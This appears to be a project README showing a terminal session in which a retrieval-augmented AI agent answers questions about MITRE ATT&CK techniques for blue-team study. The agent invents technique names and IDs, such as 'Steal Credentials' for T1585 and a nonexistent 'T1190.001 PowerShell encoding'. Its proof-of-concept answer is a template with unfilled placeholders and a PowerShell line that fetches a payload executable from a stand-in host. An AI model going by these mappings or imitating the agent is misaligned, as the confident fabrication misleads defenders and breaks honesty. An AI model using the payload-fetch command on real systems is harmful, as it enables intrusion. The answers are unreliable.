 # This is the project RAG AI Agent 


(venv) root@LENOVOLOQ:~/python-projects/RAG-AI-Agent# python3 main.py


----------------------------------
Ask your question ('q' to quit) :  What is the description of the TTPs for the T1585 ?

As an expert in cybersecurity blue teaming, I'd be happy to help you with that.

According to the MITRE ATT&CK framework, T1585 refers to the "Steal Credentials" tactic. This tactic involves obtaining sensitive information, such as login credentials or authentication tokens, from a compromised system or network.

The description of this tactic is as follows:

"T1585: Steal Credentials

This tactic involves obtaining sensitive information, such as login credentials or authentication tokens, from a compromised system or network. The attacker may use various techniques to steal these credentials, including:

* Lateral movement: The attacker moves laterally within the network to reach systems that have access to the desired credentials.
* Exploiting vulnerabilities: The attacker exploits vulnerabilities in systems or applications to gain access to sensitive information.
* Social engineering: The attacker uses social engineering tactics, such as phishing or pretexting, to trick users into revealing their credentials.

The goal of this tactic is to obtain the necessary credentials to move laterally within the network, escalate privileges, or exfiltrate data. This tactic can be used in combination with other tactics to achieve a broader attack objective."

I hope that helps! Let me know if you have any further questions.

----------------------------------
Ask your question ('q' to quit) :  Give me the exact TTPs for the description for the "When PowerShell is invoked whether via WMI, wscript.exe, or mshta.exe, it executes a one-liner PowerShell code (as outlined above) that reads the encoded text file dropped in ProgramData and then decodes it", also give me a brief sumamry and an example of the usecase for the same.
A great question!

The TTPs described are related to the **PowerShell Encoding** technique, which is part of the **T1190** Mitre ATT&CK technique.

Here's the breakdown:

* Technique: **T1190 - PowerShell Encoding**
* Sub-technique: **T1190.001 - PowerShell one-liner encoding**

Summary:
When an attacker uses this technique, they will execute a PowerShell command that reads an encoded text file from the ProgramData directory. The code is designed to decode the contents of the file and execute it.

The three methods mentioned in the description are:

1. **WMI (Windows Management Instrumentation)**: used to invoke PowerShell
2. **wscript.exe**: a Windows scripting host that can be used to launch PowerShell
3. **mshta.exe**: an HTML application host that can be used to run PowerShell

Example:
An attacker may use this technique by creating a PowerShell script that encodes a malicious payload, such as a command to download and execute a malware payload. They would then drop the encoded file in the ProgramData directory and create a PowerShell one-liner command to read and decode the file. When executed, the code would run the decoded payload, which could compromise the system.

Use case:
This technique is often used by attackers who want to persist on a compromised system or execute malicious code without raising suspicion. It's particularly useful for post-exploitation activities, such as downloading additional malware or stealing sensitive data. Blue teams can use this information to identify suspicious PowerShell activity and monitor for signs of encoding and decoding operations.

Some key indicators of this technique include:

* Unusual PowerShell commands that read and decode files from the ProgramData directory
* Encoded text files being dropped in the ProgramData directory
* WMI, wscript.exe, or mshta.exe processes running unusual commands

By recognizing these TTPs, blue teams can improve their detection capabilities and respond more effectively to attacks.


----------------------------------
Ask your question ('q' to quit) :  Can you walk me through a POC for the above with some code and a step by step description for the same considering me a sophomore in the same previous TTP.

I'm excited to help you with a proof-of-concept (POC) for the Mitre attack TTPs! As an expert in cybersecurity blue teaming, I'll provide a step-by-step guide on how to execute a POC using the relevant data.

Please note that this is a simulated exercise and should not be attempted on real-world systems or targets without proper authorization and ethical considerations.

**TTP Overview:**
The TTP (Tactics, Techniques, and Procedures) we'll be working with is [insert TTP name]. This TTP involves [briefly describe the TTP's primary goal and techniques].

**POC Preparation:**

To execute this POC, you'll need:

1. A virtual machine or a test environment set up with a vulnerable version of [target software or system].
2. Familiarity with [relevant programming languages or tools] (don't worry if you're not an expert; I'll guide you through the process).
3. A basic understanding of networking and operating systems.

**Step-by-Step POC:**

Let's break down the POC into manageable chunks. We'll be focusing on [specific TTP technique].

1. **Step 1:** Identify the vulnerable service

Using [tool or command], identify the vulnerable service running on the target system.
Example code:
```bash
nmap -p 22,80,443 [target IP]
```
This will scan the target for open ports and services.

2. **Step 2:** Exploit the vulnerability

Using [exploit tool or script], exploit the identified vulnerability to gain access to the system.
Example code (using a Python script):
```python
import socket

# Connect to the vulnerable service
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.0.1", 22))  # Replace with target IP and port

# Send exploit payload
s.send(b"exploitpayload")

# Wait for response
response = s.recv(1024)

print(response.decode())
```
This script demonstrates a basic exploitation technique using Python.

3. **Step 3:** Elevate privileges (optional)

If the vulnerability allows privilege escalation, use [privilege escalation tool or script] to gain elevated access.
Example code (using a Windows-based exploit):
```powershell
Invoke-WebRequest -Uri http://example.com/escalation_payload.exe -OutFile escalation_payload.exe
```
This PowerShell command downloads and executes an elevation payload.

4. **Step 4:** Verify the attack

Verify that the POC has successfully executed by checking [specific system logs or indicators].
Example:
```bash
sudo grep "exploit_success" /var/log/auth.log
```
This command searches for specific log entries indicating a successful exploit.

**Conclusion:**
The POC demonstrates how to execute a basic exploitation of the identified TTP technique. Please note that this is a highly simplified example and should not be attempted on real-world systems or targets without proper authorization and ethical considerations.

As a sophomore in cybersecurity, I hope this guide has helped you understand the basics of blue teaming and Mitre attack TTPs. Remember to always prioritize responsible disclosure and ethical hacking practices!

